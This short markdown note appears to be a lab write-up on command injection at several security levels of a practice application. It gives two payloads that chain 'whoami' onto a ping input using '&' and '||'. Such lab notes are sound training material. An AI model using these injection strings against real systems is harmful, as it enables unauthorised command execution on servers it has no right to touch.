 ## Command Injection

Low level : 
```
8.8.8.8 & whoami
```

medium and high level : 
```
8.8.8.8 || whoami
```
